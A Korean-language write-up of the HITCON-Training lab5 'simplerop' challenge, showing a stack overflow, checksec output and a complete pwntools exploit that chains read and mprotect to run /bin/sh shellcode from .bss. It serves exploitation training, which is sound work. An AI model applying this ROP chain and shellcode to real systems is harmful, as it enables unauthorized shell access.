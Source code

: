 lab5
====
```
#include <stdio.h>

int main(){
	char buf[20];
	puts("ROP is easy is'nt it ?");
	printf("Your input :");
	fflush(stdout);
	read(0,buf,100);
	
}
```
이번 코드는 위와 같다.

```
root@kali:~/HITCON-Training/LAB/lab5# checksec ./simplerop
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
[*] '/root/HITCON-Training/LAB/lab5/simplerop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)


root@kali:~/HITCON-Training/LAB/lab5# file simplerop
simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
```

이번 문제는 statically linked 바이너리이다.
static 컴파일이 되어있어서 GOT overwrite 같은 공격을 못하지만 mprotect를 이용해서 bss영역에 실행권한을 부여하면 shellcode를 이용해서 공격할 수 있다.

mprotect의 원형은 다음과 같은데   
`int mprotect(void *addr, size_t len, int prot);`
NX-Bit가 걸려있어도 mprotect() 함수를 실행시켜서 Shellcode를 실행시킬 수 있다고한다.   
mprotect()함수는 주어진 메모리 영역의 권한을 바꿀 수 있도록 해주기 때문에 prot 인자에 7을 주게 되면 RWX권한이 모두 들어가게 된다.

```
.bss = 0x80eaf80
bss 영역의 주소는 : 0x80ea000
(mprotect 함수의 인자 중 void *addr 부분이 0x1000의 배수가 되어야 한다)

gdb-peda$ x/wx read
0x806cd50 <read>:	0x0c3d8365
gdb-peda$ x/wx mprotect
0x806d870 <mprotect>:	0x24548b53

pppr : 0x804841d
```

bss, read, mprotect, pppr 가젯 주소를 모두 구했으니 이제 다음과 같은 순서로 exploit을 짜보자.

1. read(0, bss, 쉘코드길이) 로 bss영역에 쉘코드를 입력한다.
2. mprotect를 통해 쉘코드를 올린 bss영역에 실행권한을 부여한다.
3. bss영역을 실행함으로써 쉘을 따낸다.

```
from pwn import*

p = process('./simplerop')
e = ELF('./simplerop')

read=0x806cd50
mprotect=0x806d870
bss=0x80ea000
pppr=0x804841d
shellcode ='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

pl = ''
pl += 'a'*32
pl += p32(read)
pl += p32(pppr)
pl += p32(0)
pl += p32(bss)
pl += p32(26)
pl += p32(mprotect)
pl += p32(bss)
pl += p32(bss)
pl += p32(26)
pl += p32(7)


p.recvuntil(':')
p.send(pl)
p.send(shellcode)
p.interactive()

```

